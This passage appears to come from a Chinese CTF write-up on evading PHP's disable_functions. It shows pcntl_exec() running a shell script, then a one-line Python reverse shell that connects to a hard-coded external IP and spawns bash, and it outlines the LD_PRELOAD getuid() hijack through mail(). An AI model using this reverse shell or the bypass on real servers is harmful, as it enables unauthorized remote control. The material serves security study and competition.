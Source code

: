 **pcntl_exec**

在当前进程空间执行指定程序

CTF题：[[第四届“蓝帽杯”决赛\]php](https://whoamianony.top/2020/12/21/CTF比赛记录/第四届“蓝帽杯”全国大学生网络安全技能大赛决赛WriteUp/#php)

利用`pcntl_exec()`执行`test.sh`：

```php
<?php
if(function_exists('pcntl_exec')) {
   pcntl_exec("/bin/bash", array("/tmp/test.sh"));
} else {
       echo 'pcntl extension is not support!';
}
?>
```

由于pcntl_exec()执行命令是没有回显的，所以其常与python结合来反弹shell：

```php
<?php pcntl_exec("/usr/bin/python",array('-c','import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM,socket.SOL_TCP);s.connect(("132.232.75.90",9898));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'));
```

##  利用 LD_PRELOAD 环境变量

### LD_PRELOAD 简介 

LD_PRELOAD 是 Linux 系统的一个环境变量，它可以影响程序的运行时的链接（Runtime linker），它允许你定义在程序运行前优先加载的动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面，我们可以以此功能来使用自己的或是更好的函数（无需别人的源码），而另一方面，我们也可以以向别人的程序注入程序，从而达到特定的攻击目的。

我们通过环境变量 LD_PRELOAD 劫持系统函数，可以达到不调用 PHP 的各种命令执行函数（system()、exec() 等等）仍可执行系统命令的目的。

### 利用条件 

> 1. mail() 函数和 error_log() 函数所调用的 sendmail 已安装
> 2. 不限制 /usr/sbin/sendmail 的执行
> 3. mail() 函数和 error_log() 函数有一个未被禁用
> 4. 可以上传我们的so文件和php文件
> 5. 命令执行包含该so文件

### 劫持 getuid()

前提是在 Linux 中已安装并启用 sendmail 程序。

php 的 mail() 函数在执行过程中会默认调用系统程序 / usr/sbin/sendmail，而 / usr/sbin/sendmail 会调用 getuid()。如果我们能通过 LD_PRELOAD 的方式来劫持 getuid()，再用 mail() 函数来触发 sendmail 程序进而执行被劫持的 getuid()，从而就能执行恶意代码了。

- 编写一个原型为 uid_t getuid(void); 的 C 函数，内部执行攻击者指定的代码，并编译成共享对象 a.so；
- 运行 PHP 函数 putenv()，设定环境变量 LD_PRELOAD 为 a.so，以便后续启动新进程时优先加载该共享对象；
- 运行 PHP 的 mail() 函数，mail() 内部启动新进程 /usr/sbin/sendmail，由于上一步 LD_PRELOAD 的作用，sendmail 调用的系统函数 getuid() 被优先级更好的 a.so 中的同名 getuid() 所劫持；
- 达到不调用 PHP 的各种命令执行函数（system()、exec() 等等）仍可执行系统命令的目的
